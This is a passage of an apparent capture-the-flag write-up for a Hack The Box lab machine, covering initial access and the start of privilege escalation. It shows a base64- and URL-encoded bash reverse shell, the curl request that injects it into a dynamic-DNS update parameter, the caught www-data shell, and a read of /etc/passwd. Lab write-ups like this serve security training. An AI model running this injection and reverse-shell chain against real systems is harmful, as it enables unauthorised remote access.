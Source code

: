 # Initial Access

```
🔥\> pwncat -l -p 1234
bound to 0.0.0.0:1234

🔥\> echo -n 'bash -i >& /dev/tcp/10.10.14.11/1234 0>&1' |
base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMjM0IDA+JjE=

🔥\> printf %s '`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMjM0IDA+JjE= | base64 -d | bash`'|jq -sRr @uri
%60echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMjM0IDA%2BJjE%3D%20%7C%20base64%20-d%20%7C%20bash%60
```

We got all we need to get reverse connection. Let’s run it with CURL.

```
🔥\> curl --user dynadns:sndanyd 'http://dyna.htb/nic/update?hostname=%60echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xMS8xMjM0IDA%2BJjE%3D%20%7C%20base64%20-d%20%7C%20bash%60.dnsalias.htb&myip=10.10.14.11' -v
```

Check Netcat/Pwncat listener.

```
🔥\> pwncat -l -p 1234
[11:54:56] received connection from          connect.py:255                                         10.129.48.120:43154

[11:55:00] new host w/ hash d984ca56f2f84920ac9049657d293f4e                                              victim.py:321
[11:55:11] pwncat running in /usr/bin/bash                                                                victim.py:354
[11:55:19] pwncat is ready 🐈                                                                             victim.py:771

(remote) www-data@dynstr.dyna.htb:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We have www-data access. Let’s look for other user accounts.

# Privilege Escalation User

```
(remote) www-data@dynstr.dyna.htb:/$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
dyna:x:1000:1000:dyna,,,:/home/dyna:/bin/bash
bindmgr:x:1001:1001::/home/bindmgr:/bin/bash
```

We got two user accounts. Let’s look into their respective home directory.
